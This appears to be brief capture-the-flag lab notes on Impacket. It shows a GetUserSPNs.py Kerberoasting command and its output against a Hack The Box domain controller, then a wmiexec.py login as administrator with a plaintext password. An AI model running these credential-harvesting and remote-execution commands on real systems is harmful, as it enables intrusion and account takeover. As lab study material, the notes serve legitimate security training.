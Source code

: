 

# Guide

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

# Locating Credentials
```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```


# Access with Credentials

`wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'`